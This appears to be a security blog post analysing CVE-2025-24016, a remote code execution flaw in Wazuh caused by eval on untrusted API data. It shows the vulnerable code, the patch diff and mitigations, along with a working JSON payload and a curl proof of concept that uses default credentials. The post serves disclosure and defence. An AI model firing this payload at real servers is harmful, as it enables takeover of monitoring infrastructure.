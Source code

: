 ```yaml
---
id: 2
title: "CVE-2025-24016: Unsafe Deserialization in Wazuh – RCE"
date: "March 27, 2025"
category: "vulnerability"
tags: ["CVE", "VulnerabilityResearch", "InfoSec", "Exploits","TechnicalAnalysis"]
author: "Hamza Khattak"
image: "/assets/img/blog/blog_post_2_2.png"
authorQuote: "Critical RCE Flaw in Wazuh: Unsafe Deserialization Puts Systems at Risk"
---
```


![CVE-2025-24016](/assets/img/blog/blog_post_2_2.png)
# CVE-2025-2401: Unsafe Deserialization in Wazuh – RCE

## Description
Open-source Security Information and Event Management (SIEM) platform Wazuh suffers from CVE-2025-24016, which enables attackers to execute arbitrary code remotely on their servers.

Attackers who have API access can execute arbitrary Python commands on vulnerable servers through this vulnerability, which exists from version 4.4.0 up to 4.9.0. The `as_wazuh_object` function processes DistributedAPI (DAPI) request or response data that makes the vulnerability active. The vulnerability enables attackers to execute arbitrary Python code, resulting in system takeover, data breaches, and complete security damage to infrastructure.

The safe `ast.literal_eval` function change in version 4.9.1 enables vulnerability protection.
Open-source Security Information and Event Management (SIEM) platform Wazuh suffers from CVE-2025-24016 which enables attackers to execute arbitrary code remotely on their servers.

## Technical Breakdown

- **Affected Software:** Wazuh  
- **Affected Versions:** 4.4.0 to 4.9.0  
- **CVSSv3.1 Score:** 9.9 (Critical)  
- **CVSSv3.1 Vector:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:H/A:H`  
- **Affected Component:** `framework/wazuh/core/cluster/common.py`  
- **Attack Vector:** Network  
- **Privileges Required:** Low (API Access)  
- **User Interaction:** None  
- **Scope:** Changed  

The security problem resides inside the `as_wazuh_object` function within `framework/wazuh/core/cluster/common.py`. DAPI data serialization occurs through this function to process JSON data used for communication between Wazuh API, manager, and agents.

Before the implementation of the security patch the vulnerable code section appeared as follows:

```python
def as_wazuh_object(dct: Dict):
    try:
        if '__wazuh_datetime__' in dct:
            return datetime.datetime.fromisoformat(dct['__wazuh_datetime__'])
        elif '__unhandled_exc__' in dct:
            exc_data = dct['__unhandled_exc__']
            return eval(exc_data['__class__'])(*exc_data['__args__']) # 🚨 VULNERABLE 🚨
        return dct
    except (KeyError, AttributeError):
        return dct
```

The code checks if the dictionary `dct` contains the key `__unhandled_exc__`. A valid dictionary value for `__unhandled_exc__` enables the code to obtain class and args values before implementing `eval` to create an instance of `__class__` with arguments `__args__`. Evaluating untrusted data means exposing the system to severe Python code execution since attackers control it.

## Affected Component Analysis
CVE-2025-24016 occurs because `eval` operates on every data string received from the Distributed API for serialization. Evaluation functions in Python enable execution of arbitrary program code so this creates a major security threat to users.
The vulnerability can be abused by attackers who create specific malicious JSON data including the `unhandled_exc` dictionary entry. A specifically constructed dictionary within the Python class gets passed to the `eval` function allowing server-execution of arbitrary code.
The vulnerability appears because the `as_wazuh_object` function fails to properly clean or check incoming data before sending it to evaluation. Attackers can execute remote code by placing their own code into the `class` and `args` fields because this vulnerability allows control over these parameters.

An attacker can send the following JSON payload:
```json
{
    "__unhandled_exc__": {
        "__class__": "os.system",
        "__args__": ["touch /tmp/pwn.txt"]
    }
}
```
The execution of `eval` within `as_wazuh_object` produces a system call of `os.system("touch /tmp/pwn.txt")`, leading to the creation of a file named `/tmp/pwn.txt` on the Wazuh server.

## Exploitation Techniques
Exploiting this vulnerability requires API access, which attackers can obtain through compromised dashboards, agents, or weak credentials.

A proof-of-concept (PoC) demonstrates how exploitation can be carried out via the run_as endpoint:
```sh
curl -X POST -k -u "wazuh-wui:MyS3cr37P450r.*-" -H "Content-Type: application/json" \  
--data '{"__unhandled_exc__":{"__class__": "os.system", "__args__": ["touch /tmp/pwn.txt"]}}' \  
https://<worker-server>:55000/security/user/authenticate/run_as
```
### Explanation of the Exploit:
- **`-X POST`** – Specifies the HTTP method as **POST**.  
- **`-k`** – Disables SSL certificate verification (useful for testing in environments with self-signed certificates).  
- **`-u "wazuh-wui:MyS3cr37P450r.*-"`** – Provides authentication credentials (**default credentials are used here, which should be changed for security**).  
- **`-H "Content-Type: application/json"`** – Sets the `Content-Type` header to `application/json` to indicate the request body format.  
- **`--data '{"__unhandled_exc__":{"__class__": "os.system", "__args__": ["touch /tmp/pwn.txt"]}}'`** – Injects the malicious JSON payload, which executes the command `touch /tmp/pwn.txt` on the Wazuh server, demonstrating arbitrary code execution.  
- **`https://<worker-server>:55000/security/user/authenticate/run_as`** – Specifies the `run_as` endpoint URL. Replace `<worker-server>` with the actual hostname or IP address of the Wazuh worker server.  

A successful attack grants the following capabilities:

- **Full system control** – Attackers can install malware, modify configurations, or exfiltrate sensitive data.
- **Lateral movement** – The compromised Wazuh server can be used for spreading across networks.
- **Monitoring disruption** – Security alerts can be disabled, allowing attackers to operate undetected.

## Patch Analysis
Wazuh resolved this vulnerability in version 4.9.1 by replacing `eval` with `ast.literal_eval`, which securely evaluates literals without allowing arbitrary code execution.

Here is the relevant code modification in `framework/wazuh/core/cluster/common.py`:

```python
        elif '__unhandled_exc__' in dct:
            exc_data = dct['__unhandled_exc__']
-            return eval(exc_data['__class__'])(*exc_data['__args__'])
+            exc_dict = {exc_data['__class__']: exc_data['__args__']}
+            return ast.literal_eval(json.dumps(exc_dict))
        return dct
```
The patch mitigates the vulnerability by replacing the unsafe `eval` function with `ast.literal_eval`. Unlike `eval`, `ast.literal_eval` only processes Python literals, eliminating arbitrary code execution risks.

## Mitigation Strategies
To reduce the risk associated with this vulnerability, organizations should implement the following security measures:

- **Upgrade to Wazuh 4.9.1 or later** – This version includes the necessary patch to fix the vulnerability.
- **Restrict API access** – Limit API usage to only authorized users and trusted systems.
- **Temporary workarounds** – Deploy Web Application Firewalls (WAFs) to block requests containing `__unhandled_exc__`.
- **Monitor API traffic** – Continuously track API activity for unusual behavior, such as unexpected requests or large data transfers.
- **Regularly update security configurations** – Ensure that Wazuh security settings are current and properly configured.

## References
- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-24016)
- [GitHub Advisory](https://github.com/wazuh/wazuh/security/advisories/GHSA-hcrc-79hj-m3qh)
- [GitHub Repository (PoC)](https://github.com/0xjessie21/CVE-2025-24016)
- [SonicWall Blog](https://www.sonicwall.com/blog/critical-wazuh-rce-vulnerability-cve-2025-24016-risks-exploits-and-remediation)
- [SecurityOnline.info](https://securityonline.info/cve-2025-24016-cvss-9-9-critical-rce-vulnerability-discovered-in-wazuh-server/)
- [Recorded Future](https://www.recordedfuture.com/vulnerability-database/CVE-2025-24016)

